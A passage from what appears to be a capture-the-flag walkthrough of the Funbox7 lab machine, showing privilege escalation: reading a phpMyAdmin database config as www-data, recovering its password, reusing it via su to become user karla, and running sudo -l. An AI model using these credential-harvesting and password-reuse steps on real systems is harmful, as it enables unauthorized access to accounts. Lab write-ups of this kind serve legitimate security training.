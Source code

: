 ```bash
oracle@funbox7:/$ ls -la /etc/phpmyals -la /etc/phpmyadmin/
ls -la /etc/phpmyadmin/
total 52
drwxr-xr-x   3 root root     4096 Mar 31 15:10 .
drwxr-xr-x 100 root root     4096 Mar 31 15:16 ..
-rw-r--r--   1 root root     2110 Jul 10  2017 apache.conf
drwxr-xr-x   2 root root     4096 Jul 10  2017 conf.d
-rw-r-----   1 root www-data  525 Sep 18  2020 config-db.php
-rw-r--r--   1 root root      168 Jun 23  2016 config.footer.inc.php
-rw-r--r--   1 root root      168 Jun 23  2016 config.header.inc.php
-rw-r--r--   1 root root     6319 Jun 23  2016 config.inc.php
-rw-r-----   1 root www-data    8 Sep 18  2020 htpasswd.setup
-rw-r--r--   1 root root      646 Apr  7  2017 lighttpd.conf
-rw-r--r--   1 root root      198 Jun 23  2016 phpmyadmin.desktop
-rw-r--r--   1 root root      295 Jun 23  2016 phpmyadmin.service
```
We are not allowed to read the `config-db.php` as oracle. But we can read it as `www-data` user. So we should switch back to the `www-data` user.
```bash
oracle@funbox7:/$ exit              exit
exit
exit
www-data@funbox7:/$ cat /etc/phpmyadmin/config-db.php
cat /etc/phpmyadmin/config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';
www-data@funbox7:/$ 

```
In the configuration file we have found a password. We should add it to our notes, but as well try to spray the password against the users on the system.
```bash
www-data@funbox7:/$ su karla
su karla
Password: tgbzhnujm!

karla@funbox7:/$ 
```
We are lucky, we have a valid password for the user karla. Let's find out if Karla can run any command as sudo user by executing the command `sudo -l`.
```bash
karla@funbox7:/$ sudo -l          sudo -l
sudo -l
[sudo] password for karla: tgbzhnujm!

Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
```